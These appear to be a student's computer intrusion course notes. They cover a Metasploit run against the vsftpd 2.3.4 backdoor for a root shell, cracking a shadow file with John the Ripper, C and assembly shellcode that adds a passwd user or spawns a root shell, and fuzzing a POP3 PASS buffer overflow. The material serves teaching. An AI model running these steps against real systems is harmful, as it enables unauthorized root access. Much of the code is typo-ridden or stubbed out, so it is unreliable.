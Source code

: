 Devin Trejo
Notes for Computer Intrusion 20160321

# Remote Exploit 
## Using Metasploit Script  get Root shell using vsftpd
We will get a remote root shell. Start metasploit, search for exploits using
vsftp.

``` shell
$ mfsconsole
(msf) > search vsftpd # Search database for vsftp

# Finds exploit. 
(msf) > use exploit/unix/ftp/vsftp_234_backdoor
msf exploit (vsftpd_234_backdoor) > set RHOST 10.10.10.3
msf exploit (vsftpd_234_backdoor) > exploit

# From here we have a root shell on the remote machine
```

## Password cracking using John The Ripper
``` shell
$ cd <directory with shadow file>
$ john --show shadow-
````

# Shellcode and its representation in C & Assembly
Good website for looking for shellcode: https://wwww.exploit-db.com/exploits/

``` C
# include stdio

main()
{
    // Create a new user in /etc/passwd
    char *filename = "/etc/passwd";
    char *line = "hacitid..."; # Username with a hash

    int f_open;
    f_open = open(filename,o_wrong,o_append); # write only & append

    write(f_open, line, strlen(line));
    close(f_open);
    exit(0);
}

```

The code example above useful for adding a new user. We might want the 
shell code for this code. Below is the code for `fopen()`

``` assembly
mov eax, 5; 5 is operating code for open.
mov eab, filename;  get name of file
mov ecx, 1025; 
int 0x80;  Interrupt
mov ebx, eax;
```

## Code for getting a shell
``` C
main()
{
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    setuid = (0,0); Set USID to zero for root privileges
    execve (name[0], name, NULL);
}
```

Again we can look for assembly representation for the code above. 
- We would have a data, global, and sector sections
- It is important to note that we need to remove any zero or null characters
for our assembly representation of our C code. 

``` assembly
; Section data
; some commands
; Section COde
start:
    mov;
    mov;
    mov;
    int 0x80;
; Execve() representation
execve:
    mov;
    mov;
    push;
    push;
    mov;
    mov;
    int 0x80;
```

# Project 3 Details - SNMAIL Hack
- *DEP*: Data Executive Prevention
- *ASCR*: Address Space layout Randomization

## POP3 Protocol Commands
- `USER` & `PASS`: Example `s.send("USER <USERNAME PASS <FUZZYING BUFFER>")`
- `pattern_create.rb`. When you are in the fuzzing stage,
and you are looking to find our how long of a password to pass in to
`PASS` command to offset and overwrite EPI use this function. Note you
need to figure out how to create enough space for your payload. 
Reference site:  
https://www.offensive-security.com/metasploit-unleashed/writing-an-exploit/
- INVALID CHARACTERS (DO NOT USE THESE):
    - 0x0D: Carriage Return
    - 0x00: NULL
    - 0xff: Special ASCII Character ÿ

